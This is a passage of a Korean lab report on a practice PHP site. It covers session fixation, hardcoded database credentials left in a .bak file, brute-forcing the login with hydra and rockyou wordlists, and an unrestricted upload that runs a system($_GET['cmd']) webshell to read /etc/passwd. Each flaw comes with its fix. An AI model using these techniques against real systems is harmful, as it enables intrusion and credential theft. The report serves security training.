
*"비밀번호가 변경되었습니다" 메시지와 함께 로그인 페이지로 이동*

> **참고**: 이 단계에서는 인증코드 발송이 암호화·인증 없는 내부 SMTP 서버를 거치고 있어 네트워크 경로상 노출 위험이 남아 있었습니다. 이 구간은 이후 네트워크 보안 단계에서 STARTTLS를 적용했습니다([`네트워크보안_검증증빙.md`](../네트워크보안/네트워크보안_검증증빙.md) 참고).

### 보완 상세 (이메일 인증코드 흐름)
`users`에 `reset_code`와 `reset_expires`를 추가했습니다. 아이디와 이메일이 일치하면 `random_int(100000, 999999)`로 발급한 6자리 코드를 저장하고 PHPMailer로 발송합니다. 검증에는 MySQL `NOW()`를 사용했고, 실습 유효기간은 1분으로 설정했습니다. 비밀번호가 변경되면 코드와 만료 시각을 삭제합니다. 공개한 실습 코드에는 메일 발송에 실패하면 인증코드를 화면에 표시하는 분기가 남아 있습니다. Web과 Mail 사이의 SMTP 전송에는 이후 STARTTLS를 적용했습니다.

---

## 7. 세션 고정 (Session Fixation)

### 개요
로그인 성공 후에도 세션 ID가 유지됐습니다. 로그인 전에 피해자에게 공격자가 아는 세션 ID를 사용하게 하면, 로그인 후 같은 ID로 피해자 세션에 접근할 수 있습니다.

### 재현 과정
브라우저 개발자도구 → Application → Cookies에서 로그인 전/후 `PHPSESSID` 값을 비교했습니다.

### 원인
```php
// account/login_process.php (취약 코드 — 개념)
// 로그인 성공 후 session_regenerate_id()를 호출하지 않음
$_SESSION['user_id'] = $user['id'];
```

### 보완 방법
```php
// account/login_process.php (보완 코드 — 개념)
session_regenerate_id(true); // 로그인 성공 시 세션 ID 재발급
$_SESSION['user_id'] = $user['id'];
```

### 결과 캡처

*로그인 전 Application → Cookies에서 확인한 `PHPSESSID` 값*


*로그인 성공 후 같은 쿠키를 다시 확인, 값이 로그인 전과 동일함 (직접 대조 확인, `session_regenerate_id()` 미호출 확인)*

**참고: 콘솔(`document.cookie`)로도 동일하게 확인**


*로그아웃 상태에서 `document.cookie`로 확인한 세션 쿠키*


*같은 브라우저로 로그인 후 다시 확인, 위 쿠키 값과 동일 (Application 탭 캡처와 별개로 재확인한 보조 자료)*

**참고: 별도 시점에 다시 콘솔로 확인한 기록**


*로그아웃 상태에서 `document.cookie`로 확인한 세션 쿠키*


*같은 브라우저로 로그인 후 다시 확인, 위 쿠키 값과 동일, 별도 시점에서도 재발급되지 않음을 재확인*

### 결과 캡처: 보완 후 (`session_regenerate_id()` 적용)


*보완 코드 적용 후, 로그아웃 상태에서 `document.cookie`로 확인한 세션 쿠키*


*같은 브라우저로 로그인 후 다시 확인, 로그인 전과 값이 다름, `session_regenerate_id()`로 세션 ID가 재발급됨을 확인*

### 보완 상세 (세션 쿠키 옵션)
로그인 직후 `session_regenerate_id(true)`로 세션 ID를 재발급합니다. `HttpOnly`는 JavaScript에서 쿠키 값을 읽지 못하게 하고, `SameSite=Lax`는 사이트 간 요청에서 쿠키 전송 범위를 제한합니다. HTTPS를 적용한 뒤에는 `Secure` 속성으로 쿠키가 HTTPS 연결에서 전송되도록 설정했습니다.

---

## 8. 하드코딩된 DB 접속 정보 노출

### 개요
`.bak` 백업 파일이 웹 서버에 그대로 남아 있어, `view-source:`로 직접 접근하면 DB 호스트·계정·비밀번호가 평문으로 노출되는 취약점입니다.

### 재현 과정
`includes/db.php.bak`에 직접 접근해 소스를 그대로 열람.

### 원인
```php
// includes/db.php.bak (취약 코드)
$host = "localhost";
$dbname = "training_web";
$username = "webuser";
$password = "webpass123";
```

### 보완 방법
```php
// includes/db.php.bak (보완 코드)
$host     = getenv('DB_HOST');
$dbname   = getenv('DB_NAME');
$username = getenv('DB_USER');
$password = getenv('DB_PASS');
```
DB 접속 정보를 코드에서 분리해 환경변수로 관리했습니다.

### 결과 캡처

*웹에서 열 수 있었던 백업 파일에 실습용 DB 접속 정보가 평문으로 표시됩니다.*


*동일 파일이 `getenv()`로 값을 가져오도록 수정되어, 소스만 봐서는 실제 값을 알 수 없음*

### 보완 상세 (접속 정보 분리)
DB 접속 정보는 Apache 설정의 `SetEnv`(`DB_HOST`, `DB_NAME`, `DB_USER`, `DB_PASS`)로 옮기고, `includes/db.php`는 `getenv()`로 읽도록 바꿨습니다. 이 설정 파일은 문서 루트(`/var/www/html`)와 다른 `/etc/httpd/` 아래에 있어서 URL로는 접근할 수 없고, 값을 바꾼 뒤에는 `systemctl restart httpd`로 반영합니다. 그 결과 코드 파일에는 `getenv()` 호출만 남고 비밀번호 값이 들어 있지 않습니다.

---

## 9. 무차별 대입 공격 (Brute-force) 방어 부재

### 개요
로그인 실패 횟수 제한이나 캡차, 차단 장치가 전혀 없어, `hydra` 같은 도구로 비밀번호를 무한정 시도할 수 있는 취약점입니다.

### 재현 과정
Kali의 `hydra`로 로그인 폼(`account/login_process.php`)에 다양한 워드리스트(`rockyou.txt`, `rockyou_100.txt`, `rockyou_100k.txt`, `pw_small.txt` 등)를 사용해 반복 공격. 여러 차례 시도 중 일부는 비밀번호를 찾아내는 데 성공하고(`admin`/`admin123` 등), 일부는 서버 연결 제한·시도 범위 부족 등으로 실패했습니다.

### 원인
로그인 처리 로직에 실패 횟수 기록, 계정 잠금, 캡차, IP 차단(fail2ban 등) 중 어떤 방어도 없음.

### 보완 방법
로그인 실패 횟수 기록, 캡차, fail2ban을 함께 적용하는 다단계 방어로 보완했습니다. 코드는 [코드_비교](../코드_비교/README.md)에, fail2ban 설정은 [부록 E](../부록_설정발췌.md)에 있습니다.

### 결과 캡처: 보완 전 (반복 시도 성공)







*hydra로 반복 시험해 실습 계정의 비밀번호를 찾은 결과입니다.*

### 결과 캡처: 보완 후 (캡차 + fail2ban 적용)

*보완 후 hydra는 반복되는 연결 오류로 종료됐고 성공한 로그인은 0건이었습니다. 같은 시기 fail2ban의 IP 차단 기록은 [부록 E](../부록_설정발췌.md#e-앱-단계의-fail2ban-동작-기록)에 있습니다.*

### 보완 상세 (캡차 + 실패 횟수 기록 + fail2ban)
**1. 실패 횟수 기록**

`users.failed_attempts`에 계정별 로그인 실패 횟수를 저장했습니다. 실패 시 1을 더하고, 로그인에 성공하면 0으로 초기화합니다.

**2. 캡차.** 한 계정에서 실패가 5회 이상 쌓이면 비밀번호를 검사하기 전에 reCAPTCHA v2("로봇이 아닙니다" 체크박스) 검증을 먼저 거치게 했습니다. 구글 reCAPTCHA 관리 콘솔에서 사이트를 등록해 사이트 키와 비밀 키를 발급받았고, 등록 도메인에는 실습 서버 주소(`192.168.20.111`)를 넣었습니다. 사이트 키는 `login.php`의 위젯(`g-recaptcha`)에, 비밀 키는 `login_process.php`의 서버 검증에 들어갑니다. 서버는 `curl`로 구글의 `siteverify`에 응답 토큰을 보내 성공 여부를 확인하고, 5초 안에 응답이 없으면 실패로 처리합니다. 캡차에 막혀 돌려보낸 경우에는 `login.php?error=1&captcha=1`로 이동해 "캡차를 완료해야 로그인할 수 있습니다."라는 문구와 캡차 위젯을 보여 주고, 입력했던 아이디는 다시 채워 줍니다. 캡차 검증은 비밀번호 비교보다 앞 단계라서, 캡차를 풀 수 없는 hydra는 진짜 비밀번호를 보내도 비교 단계에 도달하지 못합니다. 이 동작을 위해서는 서버가 외부 인터넷(구글)에 접속할 수 있어야 하고 PHP `curl` 확장이 켜져 있어야 합니다.


*한 계정에서 로그인 실패가 5회 이상 쌓인 뒤 제출하면 `login.php?error=1&captcha=1`로 이동하며, "캡차를 완료해야 로그인할 수 있습니다." 문구와 reCAPTCHA 위젯("로봇이 아닙니다")이 표시된 화면*

**3. fail2ban**

Apache의 `access_log`에서 로그인 처리 경로로 오는 요청을 감시하도록 구성했습니다. 같은 IP의 해당 요청이 60초 안에 10회 누적되면 600초 동안 차단합니다. 설정과 차단 로그는 [부록 E](../부록_설정발췌.md#e-앱-단계의-fail2ban-동작-기록)에 있습니다.

---

## 10. 무제한 파일 업로드 (Unrestricted File Upload → RCE)

### 개요
과제게시판(`board/write.php`)의 첨부파일 업로드 기능에 확장자·MIME 검사가 전혀 없고, 저장 폴더(`uploads/assignments/`)가 웹에서 직접 접근 가능하며 스크립트 실행을 막는 설정(`.htaccess`)도 없는 취약점입니다. 로그인만 되어 있으면(학생 계정으로도 충분) `.php` 웹쉘을 "과제 파일"로 올리고, 그 URL에 접속하는 것만으로 서버에서 임의 명령을 실행(RCE)할 수 있습니다.

### 재현 과정
앞선 보완을 적용한 뒤 `board/write.php`의 전후 코드를 비교했습니다. 첨부파일 처리 부분은 그대로였고, 확장자 검사 없이 웹 루트 아래에 파일을 저장하고 있었습니다.

학생 계정으로 PHP 웹쉘 `shell.php`를 첨부했습니다. 저장 파일명이 `게시글번호_원본파일명` 형식이어서 URL을 구성할 수 있었습니다. 해당 경로에 접속해 `whoami`를 실행했고, 응답에서 실행 계정 `apache`를 확인했습니다. 같은 방법으로 `/etc/passwd`도 조회했습니다.

### 원인
- 업로드 확장자 화이트리스트 검사 없음
- 파일 내용(매직바이트/MIME) 검사 없음
- 저장 폴더(`uploads/assignments/`)가 웹 루트 안에 있고 `.htaccess` 등 스크립트 실행 차단 설정 없음
- 저장 파일명이 `게시글번호_원본파일명`으로 예측 가능

### 보완 전: 공격 재현
웹쉘(`shell.php`)을 과제게시판에 그대로 업로드 → 게시글 상세에서 첨부파일 확인 → URL에 `?cmd=` 파라미터를 붙여 서버 명령을 실행했습니다.

![웹쉘 코드 (system($_GET['cmd']))](assets/59-upload-rce-webshell-code.png)
*업로드한 shell.php의 내용: GET 파라미터 cmd를 그대로 system()에 전달*


*확장자·내용 검증이 전혀 없어 .php 파일이 그대로 첨부파일로 저장됨*


*업로드된 shell.php에 직접 접속해 명령 실행 성공, 실행 계정은 apache*


*업로드한 PHP 파일을 실행해 `/etc/passwd`를 읽은 결과입니다.*

### 보완 방법
`board/write.php`의 업로드 처리 블록을 다음 내용으로 교체하고 보강했습니다.
1. 확장자 허용 목록 검사(`pdf`·`doc`·`docx`·`hwp`·`ppt`·`pptx`·`zip`)
2. `finfo_file()`로 파일의 MIME 유형을 확인하고 허용 목록과 비교
3. `bin2hex(random_bytes(16))`로 저장 파일명 생성
4. 저장 파일명을 기록하는 `UPDATE`에 Prepared Statement 적용
5. 업로드 디렉터리에 `.htaccess`를 추가해 PHP 계열 스크립트의 요청과 실행을 제한
6. 로그인한 학생에게 과제 제출 버튼을 표시하고 관리자에게 과제 등록 버튼을 표시

### 보완 후: 재검증
PHP 웹쉘은 확장자 검사에서 차단됐습니다. 정상 PDF는 업로드됐고, 확장자를 PDF로 바꾼 웹쉘은 MIME 검사에서 거부됐습니다.


*확장자 화이트리스트에 의해 즉시 차단*


*보완 조치가 정상 업로드 기능은 막지 않음을 확인*


*`finfo_file()`로 확인한 MIME 유형이 허용 목록에 없어 업로드가 거부됐습니다.*
